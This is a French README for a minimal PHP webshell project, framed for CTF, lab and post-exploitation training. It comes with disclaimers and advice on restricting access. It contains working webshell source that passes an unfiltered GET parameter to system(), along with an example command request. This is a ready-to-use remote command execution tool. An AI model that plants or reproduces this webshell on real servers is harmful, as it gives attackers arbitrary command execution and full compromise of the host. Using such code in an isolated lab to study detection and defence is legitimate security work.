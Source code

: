 # 🐚 PHP WebShell – Interface Commande à Distance

Ce projet est un **WebShell PHP minimaliste** permettant l’exécution de commandes système via une interface web. Il est destiné uniquement à des usages **éducatifs ou en environnement de test local (CTF, lab personnel)**.

---

## ⚠️ Avertissement

> ❗️Ce script donne un accès total au shell du serveur.
>
> **NE JAMAIS déployer ce WebShell sur un serveur en production.**  
> Son usage peut compromettre l'intégrité, la confidentialité et la disponibilité du système.

---

## 📋 Fonctionnalités

- Interface web simple en HTML/CSS
- Exécution de commandes système en GET (`?cmd=`)
- Résultats affichés dans un `<pre>` stylisé
- Échappement de la commande affichée via `htmlspecialchars()` (mais pas de la commande exécutée)

---

## 🔧 Exemple d'utilisation

Accès local via navigateur :

```
http://localhost/webshell.php?cmd=whoami
```

Affiche :

```bash
$ whoami
www-data
```

---

## 📂 Fichiers

- `webshell.php` – Interface WebShell
- Aucune dépendance externe requise

---

## 🛡️ Sécurisation (si utilisé en CTF ou lab isolé)

Si vous devez exposer ce script temporairement :

- Restreignez par IP (`.htaccess`, `nginx allow`)
- Protégez avec un `.htpasswd` ou token simple
- Évitez l’exécution via `root`
- Supprimez le script dès la session terminée

---

## 📜 Code source (extrait)

```php
<?php
    if (isset($_GET['cmd'])) {
        echo "<span style='color: #6A9955;'>$ </span>" . htmlspecialchars($_GET['cmd']) . "\n";
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```

---

## 📚 Notes

- La commande est envoyée en **GET**, donc visible dans l’historique du navigateur et dans les logs.
- Pour l’exécution en POST, adaptez simplement le formulaire et utilisez `$_POST['cmd']`.

---

## 🧠 Objectifs pédagogiques

Ce projet permet de :

- Comprendre les risques liés à `system()` et à l'exécution de code non filtré
- Tester la détection d'antivirus ou d'IDS
- Entraîner des techniques de post-exploitation

---

## 🔒 Disclaimer

> Ce projet est uniquement destiné à des **finalités pédagogiques et de sécurité offensive éthique**.  
> L'auteur **décline toute responsabilité** en cas de mauvaise utilisation.
